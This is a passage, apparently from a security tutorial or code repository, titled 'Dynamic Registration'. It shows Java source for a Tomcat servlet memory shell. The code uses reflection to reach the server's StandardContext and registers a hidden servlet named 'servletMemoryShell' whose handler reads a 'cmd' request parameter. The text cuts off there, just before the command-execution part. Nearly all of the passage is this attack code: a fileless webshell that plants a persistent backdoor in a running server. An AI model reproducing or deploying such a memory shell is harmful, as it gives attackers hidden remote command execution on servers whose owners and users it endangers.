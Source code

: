 ### Dynamic Registration

#### Servlet

```java
package servlet;

import org.apache.catalina.Wrapper;
import org.apache.catalina.core.ApplicationContext;
import org.apache.catalina.core.StandardContext;

import javax.servlet.*;
import javax.servlet.annotation.WebServlet;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.IOException;
import java.io.InputStream;
import java.lang.reflect.Field;
import java.util.Scanner;

@WebServlet(name = "ServletMemoryShellServlet", value = "/ServletMemoryShellServlet")
public class ServletMemoryShellServlet extends HttpServlet {
    @Override
    protected void doGet(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
        super.doGet(request, response);
    }

    @Override
    protected void doPost(HttpServletRequest request, HttpServletResponse response) {
        try {
            ServletContext servletContext = request.getSession().getServletContext();
            Field context = servletContext.getClass().getDeclaredField("context");
            context.setAccessible
(true);
            ApplicationContext applicationContext = (ApplicationContext) context.get(servletContext);
            Field context1 = applicationContext.getClass().getDeclaredField("context");
            context1.setAccessible(true);
            StandardContext standardContext = (StandardContext) context1.get(applicationContext);

            String servletMapping = standardContext.findServletMapping("servletMemoryShell");
            if (servletMapping != null) {
                return;
            }

            Wrapper wrapper = standardContext.createWrapper();
            wrapper.setName("servletMemoryShell");
            Servlet servletMemoryShell = new Servlet() {
                public void init(ServletConfig servletConfig) {
                }

                public ServletConfig getServletConfig() {
                    return null;
                }

                public void service(ServletRequest servletRequest, ServletResponse servletResponse) throws IOException {
                    HttpServletRequest httpServletRequest = (HttpServletRequest) servletRequest;
                    HttpServletResponse httpServletResponse = (HttpServletResponse) servletResponse;

                    if (httpServletRequest.getParameter("cmd") != null) {
```